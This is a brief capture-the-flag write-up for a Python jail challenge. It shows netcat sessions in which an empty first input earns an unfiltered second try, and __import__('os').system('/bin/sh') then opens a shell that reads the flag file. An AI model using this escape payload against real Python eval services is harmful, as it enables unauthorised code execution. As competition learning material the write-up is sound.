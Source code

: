 # unnecessary

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/2c8c5405-c7d5-4d22-bab0-7a3ea0666d80)

sample entering
```
quasar@quasar098:~$ nc chal.nbctf.com 31381
pyjails really shouldn't be guessy, but this one is.
>>> hello world
guess harder
```

## solution

so, we can try entering no text (just pressing enter key)

```
quasar@quasar098:~$ nc chal.nbctf.com 31381
pyjails really shouldn't be guessy, but this one is.
>>>
invalid syntax (<string>, line 0)
i kinda feel bad, so i'll let you have another try.
>>>
error, guess harder!
```

it gives us the opportunity to do a second try

```
quasar@quasar098:~$ nc chal.nbctf.com 31381
pyjails really shouldn't be guessy, but this one is.
>>>
invalid syntax (<string>, line 0)
i kinda feel bad, so i'll let you have another try.
>>> __import__('os').system("/bin/sh")
ls
flag.txt
run
cat flag.txt
nbctf{th15_15_4ll_th3_fr0g5_f4ul7}
```

for some reason, the second try just doesn't have any protections

my original solution was to do
```
pyjails really shouldn't be guessy, but this one is.
>>> {ᵉᵛᵃˡ:=ᵉˣᵉᶜ}=={ʳᵃⁿᵍᵉ}
i kinda feel bad, so i'll let you have another try.
>>> __import__('os').system("/bin/sh")
$ ls
flag.txt
run
$ cat flag.txt
```

idk why i thought this would work but it is pretty clever but idk lol yeah
